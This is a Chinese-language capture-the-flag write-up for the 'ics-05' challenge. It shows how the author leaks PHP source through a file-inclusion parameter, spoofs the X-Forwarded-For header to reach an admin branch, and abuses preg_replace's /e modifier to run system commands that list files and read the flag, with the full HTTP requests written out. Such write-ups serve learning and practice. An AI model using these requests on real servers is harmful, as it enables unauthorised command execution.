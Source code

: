 # ics-05
### 题目描述：其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统

页面只有 `设备维护中心` 可以跳转到首页 `index.php`. 点击 `云平台设备维护中心` 可以看到 `URL` 出现参数 `page` 可以注入.

刚开始我怀疑是 `SQL` 注入, 但试了一会儿也没发现什么特别. 于是我尝试看可不可以读 `index.php` 通过 `PHP 伪协议`. 数据返回在 `base64` 编码. 解码后得到 `index.php` 代码, 只需要注意这段:

```php
<?php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
?>
```

如果我们可以构造 `X-Forwarded-For` 是 `127.0.0.1`, 那我们可以成为 `admin`. (只访问 `/index.php`:)

```
GET /index.php HTTP/1.1
Host: 111.200.241.244:53890
...
X-Forwarded-For: 127.0.0.1
```

然后上传三个参数 `pat, rep, sub` 通过方式 `GET`. 系统会执行 `preg_replace($pattern, $replacement, $subject)`.

`preg_replace` 可以被利用当 `pattern` 为 `//e` 模式 (需要返回对). 那时候可以执行任何命令通过 `replacement`.

列出所有文件名:

```
GET /index.php?pat=/a/e&rep=system('ls')&sub=a HTTP/1.1
Host: 111.200.241.244:53890
...
X-Forwarded-For: 127.0.0.1
```

返回:

```
Welcome My Admin !
css index.html index.php js layui logo.png s3chahahaDir start.sh 视图.png
```

`flag` 在 `/var/www/html/s3chahahaDir/flag/flag.php` 里:

```
GET /index.php?pat=/a/e&rep=system('cat+/var/www/html/s3chahahaDir/flag/flag.php')&sub=a HTTP/1.1
Host: 111.200.241.244:53890
...
X-Forwarded-For: 127.0.0.1
```
